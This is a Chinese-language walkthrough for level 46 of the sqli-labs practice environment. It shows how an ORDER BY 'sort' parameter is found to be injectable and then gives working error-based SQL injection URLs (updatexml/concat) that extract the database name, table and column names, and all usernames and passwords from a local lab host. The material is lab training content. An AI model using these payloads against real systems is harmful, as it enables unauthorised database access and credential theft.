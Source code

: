 ```yaml
---
title: Less - 46
date: 2023-03-22T12:39:45Z
lastmod: 2023-03-22T12:50:19Z
---
```


# Less - 46

---

# 通关教程

---

## 1、判断注入

---

​![image](assets/image-20230322124200-48f0doa.png)​

要我们输入sort，我们输入sort=1试试

​![image](assets/image-20230322124252-ejpg4n0.png)​

​![image](assets/image-20230322124403-cz20hxz.png)​

这里我们发现sql语句为select * from users order by $id;,在原先的语句上加入了order by语句，那到底order by语句是什么意思呢，前面的关卡我们使用了order by语句，但都是都是为了判断字段数，这里我们来讲讲order by语句的作用

SQL语句中，asc是指定列按升序排列，desc则 是指定列按降序排列。  
select * from users order by 1 desc; 使用降序进行排列  
select * from users order by1 asc;使用升序进行排列

这里我们就明白了，原sql语句只有order by后面的参数是我们可控的，所以sort=1的意思就是以第一列数据也就是ID进行排序

尝试sort=1'

​![image](assets/image-20230322124519-gitiylk.png)​

根据错误显示我们判断为数字型注入。这里因为有完整的错误回显，所以我们可以使用报错注入攻击或者使用时间盲注

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230322124717-syl4in6.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+
```

​![image](assets/image-20230322124808-696ld1f.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)--+
```

​![image](assets/image-20230322124912-fk7ule4.png)​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-46/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users),0x7e),1)--+
```

​![image](assets/image-20230322125002-e5j74t7.png)​
